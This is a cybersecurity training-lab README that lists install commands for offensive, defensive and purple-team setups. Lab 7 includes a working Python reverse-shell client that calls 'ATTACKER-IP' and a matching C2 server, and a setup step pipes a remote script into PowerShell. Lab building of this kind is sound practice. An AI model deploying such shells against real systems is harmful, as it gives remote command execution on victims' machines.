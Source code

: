 # 🧨 ZedSec Unified Cyber & Defense Lab Repository

This is ZedSec’s complete arsenal for both offensive and defensive cybersecurity operations. This unified Markdown document merges:
- Offensive Cyber Lab Architectures
- Defensive SOC & Detection Toolkit
- Purple Teaming Integration Workflows

For professional red teamers, blue team analysts, and hybrid ops units.

---

## 🔧 Offensive Cyber Labs – ZedSec BlackCell

### 🧠 Lab 1: Offensive Operations Lab

**Tools:** Kali Linux, Python, VirtualBox  
**Command to install essentials:**
```bash
sudo apt update && sudo apt install -y python3-pip virtualbox nmap wireshark
```
**Usage:**
- Create reverse shells
- Build custom payloads in Python

### 🔬 Lab 2: Malware Dev & RE Lab

**Tools:** FLARE VM, REMnux, IDA Free, Ghidra, PEStudio, Cuckoo Sandbox  
**FLARE VM install:**
```powershell
# Run in PowerShell as Administrator
Set-ExecutionPolicy Bypass -Scope Process -Force; 
iwr -useb https://raw.githubusercontent.com/mandiant/flare-vm/master/install.ps1 | iex
```
**Usage:**
- Analyze malware with Ghidra, x64dbg
- Run Cuckoo to sandbox sample behavior

### 🌐 Lab 3: Web Pentesting & SQLi Lab

**Setup:**
```bash
sudo apt install apache2 php mysql-server php-mysql unzip
wget https://github.com/digininja/DVWA/archive/master.zip
unzip master.zip && sudo mv DVWA* /var/www/html/dvwa
```
**Tools:** Burp Suite, SQLMap, Nikto  
**Usage:** Web attack surface enumeration, SQLi practice

### 🎭 Lab 4: Network Attacks Lab

**Install Tools:**
```bash
sudo apt install bettercap scapy wireshark
```
**Usage:**
- MITM with Bettercap
- Packet capture/sniffing with Scapy

### 🧪 Lab 5: Social Engineering & Phishing Lab

**SET Toolkit Setup:**
```bash
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
sudo pip install -r requirements.txt
sudo python setup.py install
```
**Usage:** Spear phishing campaigns and USB payload testing

### 💣 Lab 6: Exploit Dev & Fuzzing Lab

**Tools:** Vulnserver, SLMail, Immunity Debugger, Mona.py
**Windows Command:**
```powershell
choco install immunitydebugger
```
**Usage:**
- Stack-based buffer overflows
- SEH exploitation walkthroughs

### 📡 Lab 7: Multi-Agent C2 Lab

**Reverse Shell Python Client:**
```python
import socket, subprocess
client = socket.socket()
client.connect(('ATTACKER-IP', 4444))
while True:
    cmd = client.recv(1024).decode()
    if cmd == "exit": break
    output = subprocess.getoutput(cmd)
    client.send(output.encode())
```
**C2 Server:**
```python
import socket
server = socket.socket()
server.bind(('0.0.0.0', 4444))
server.listen(1)
client, addr = server.accept()
while True:
    cmd = input("C2> ")
    client.send(cmd.encode())
    print(client.recv(4096).decode())
```

---

## 🛡️ ZedSec BlueCell Defense & SOC Toolkit

### 📦 Core Tooling
```bash
sudo apt install filebeat auditbeat suricata zeek elasticsearch kibana logstash
```
**Additional Tools:**
```bash
sudo apt install clamav lynis jq net-tools git python3-pip
```
**Useful Services:**
- Enable and start:
```bash
sudo systemctl enable --now elasticsearch kibana logstash filebeat
```

### 🎯 SOC Detection Workflow
1. **Ingest:** Auditd, Sysmon logs (via Filebeat/Auditbeat)
2. **Inspect:** Kibana visualizations
3. **Enrich:** GeoIP, threat intel, Sigma rules
4. **React:** Alert > Hive Case > SOAR response

### 🚨 Sigma Rule Example
```yaml
detection:
  selection:
    EventID: 4688
    NewProcessName|contains: powershell.exe
    CommandLine|contains: "-enc"
  condition: selection
```

---

## 🎯 Purple Team Integration Guide

### Goal
Use Red Team payloads to validate Blue Team detections in real time.

### Workflow
1. **Log collection** on victim (Auditd, Sysmon)
2. **Log forwarding** to ELK or Wazuh via Filebeat
3. **Trigger attack** (e.g., reverse shell, keylogger, phishing)
4. **Observe detections** via Kibana/Wazuh alerts
5. **Validate & tune** Sigma, YARA detection rules

### Attack Simulation
```bash
git clone https://github.com/redcanaryco/atomic-red-team.git
cd atomic-red-team
Invoke-AtomicTest T1059.001
```

---

## 📁 Recommended Repo Structure
```
zedsec-unified/
├── offensive-labs/
│   ├── payloads/
│   ├── reverse_shells/
│   ├── C2-handlers/
├── defense-stack/
│   ├── elk-configs/
│   ├── wazuh-rules/
│   ├── dashboards/
├── purple-team/
│   ├── sigma/
│   ├── attack-sims/
│   ├── integration-scripts/
└── playbooks/
```

---

## 🔥 Strategy Profiles

| Profile        | Included Labs                               |
|----------------|---------------------------------------------|
| **Strike Lab** | Offensive Labs 1, 3, 4, 5                   |
| **Analysis Lab** | Malware Dev, Exploit Dev (Labs 2, 6)        |
| **Legacy Lab** | Win7 Exploit Dev (Lab 6)                    |
| **OPSEC Lab**  | Labs 1, 2, 7 (focus on stealth & evasion)   |
| **BlueCell**   | Wazuh, ELK, Zeek, Velociraptor              |
| **Purple Lab** | Full Red + Blue integrated pipeline         |

---

## 🧠 Execution Tips
- Use snapshots for rollback
- Simulate, observe, improve
- Always operate in isolated, safe environments

---

> ⚔️ ZedSec: We don’t wait for attacks — we simulate them, monitor them, dissect them, and win.

**— ZedSec Unified Operations Division**
